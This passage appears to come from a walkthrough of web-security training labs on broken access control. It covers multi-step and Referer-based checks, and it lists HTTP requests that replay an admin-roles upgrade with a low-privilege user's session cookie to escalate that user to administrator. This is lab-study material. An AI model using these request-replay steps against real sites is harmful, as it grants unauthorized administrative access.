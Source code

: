     ```plaintext
    ...
    https://<lab_url>/admin         GET
    https://<lab_url>/admin-roles   POST    (username=carlos&action=upgrade)
    https://<lab_url>/admin-roles   POST    (action=upgrade&confirmed=true&username=carlos)
    ...
    ```

    - Logout, login as **wiener** and take note of the URL flow and the parameters sent.

    ```plaintext
    ...
    https://<lab_url>/login/        POST    (username=wiener&password=peter)
    https://<lab_url>/my-account    GET     (Cookie: session=3DXvIkJ1NEBa0QqtVqK0ja6uly3MOsk8)
    ...
    ```

    - Try to access to **/admin**, the message  
    ***Admin interface only available if logged in as an administrator*** will appear.
    - Send the first (confirmed) **/admin-roles POST** request to the **Repeater**.
    - Set the **session** cookie to the **wiener**'s cookie,
    set the **username** to **wiener** and repeat the request.

    ```plaintext
    https://<lab_url>/admin-roles   POST    (Cookie: session=3DXvIkJ1NEBa0QqtVqK0ja6uly3MOsk8,
                                            action=upgrade&confirmed=true&username=wiener)
    ```

13. #### **Referer-based access control**

    > 📝 **Note:**
    <mark>Although this lab looks the same as the previous one, it's different:
    If you remove the **Referer** header, it doesn't works.  
    This is because ***Some websites base access controls on the Referer header submitted in the HTTP request.***.</mark>

    - Login as **administrator**, upgrade the user **carlos** and take note of the URL flow and the parameters sent.

    ```plaintext
    ...
    https://<lab_url>/admin         GET
    https://<lab_url>/admin-roles   GET     (username=carlos&action=upgrade)
    ...
    ```

    - Logout, login as **wiener** and take note of the URL flow and the parameters sent.

    ```plaintext
    https://<lab_url>/login/        POST    (username=wiener&password=peter)
    https://<lab_url>/my-account    GET     (Cookie: session=J0rtlZCXo6I23lQleAqEBTiBRc4C4Ybw)
    ```

    - Try to access to **/admin**, the message  
    ***Admin interface only available if logged in as an administrator*** will appear.
    - Send the first **/admin-roles GET** request to the **Repeater**.
    - Set **session** cookie to the **wiener**'s cookie,
    set the **username** to **wiener** and repeat the request  
